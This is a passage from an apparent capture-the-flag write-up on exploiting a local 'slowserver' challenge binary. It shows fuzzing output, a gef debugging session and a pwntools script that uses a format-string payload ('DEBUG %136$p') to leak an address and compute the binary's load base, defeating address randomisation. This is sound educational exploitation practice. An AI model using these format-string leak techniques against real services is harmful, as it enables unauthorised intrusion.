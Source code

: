 {: file="fuzz.py" }

As we can see, running the script on the `136th` index reveals a leak both on the local server and the remote server, where we find the return address for the `handle_post_request` which we can then use to calculate the base address where the binary is loaded.

```console
$ python3 fuzz.py
...
%136$p.%137$p.%138$p
b'0x62ec8fc0b780.0x7ffcc9958ce0.0x4b84c9211'
b'0x555555555780.0x7fffffffd1f0.0x400000000'
...
```

```console
gef➤  x/i 0x555555555780
   0x555555555780 <handle_request+173>: jmp    0x555555555800 <handle_request+301>
gef➤  vmmap slowserver
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- ./slowserver
...
gef➤  p/x 0x555555555780-0x0000555555554000
$1 = 0x1780
```

As we can see, with a script like this, we are able to leak the address and calculate the base address for the binary. Even though we are closing our connection to the server, since the server accepts connections in a `while` loop, this address will not change, and we can use it for the next requests.

```py
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

r1 = remote("127.0.0.1", 5555)

# Send a format string payload to leak an address from the binary
payload = b"DEBUG %136$p \n"
r1.sendline(payload)

# Receive and parse the leaked address
resp = r1.recv().strip()
binary_base = int(resp, 16) - 0x1780

# Print the calculated base address of the binary
print(hex(binary_base))

r1.close()
```
{: file="solve.py" }
